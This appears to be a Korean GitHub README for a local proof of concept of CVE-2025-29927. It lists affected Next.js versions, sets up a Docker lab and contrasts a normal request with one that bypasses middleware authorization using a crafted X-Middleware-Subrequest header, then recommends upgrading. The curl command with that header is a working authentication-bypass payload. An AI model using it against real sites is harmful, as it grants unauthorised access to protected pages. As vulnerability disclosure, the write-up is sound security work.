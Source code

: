 # CVE-2025-29927

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

## 요약

아래 Nextjs 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다.

- \> 11.1.4 < 12.3.5
- \> 14.0 <14.2.25
- \> 15.0 <15.2.3
- \>= 13.0.0, < 13.5.9

<br/>

## PoC 구성

먼저 middleware에서 모든 요청을 403으로 반환합니다.

```ts
// ./src/middleware.ts
export function middleware() {
  return Response.json(
    { success: false, message: "Forbidden" },
    { status: 403 }
  );
}
```

더하여 Admin page를 구성하였습니다.

```ts
// ./src/app/page.tsx
export default function Home() {
  return <h1>Admin Home Page</h1>;
}
```

정상적인 경우라면 middleware의 인증 검사를 거침으로 403이 반환되어야 합니다.

## 환경 구성 및 실행

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

## 결과

### 정상적인 요청

```sh
curl -v http://localhost:8001/
```

![normal](./assets/normal.png)

### 취약한 요청

```sh
curl -v http://localhost:8001/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![normal](./assets/vuln.png)

수신된 html 요청의 전문은 `./assets/bypassed.html`에서 확인 가능합니다.

<br/>

## 정리

Nextjs 특정 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다. 15.2.2에서는 `X-Middleware-Subrequest`에 `middleware:middleware:middleware:middleware:middleware`로 요청 시에 middleware의 인증검사가 우회됩니다. 따라서 최신 버전의 Nextjs로 업데이트해야합니다.
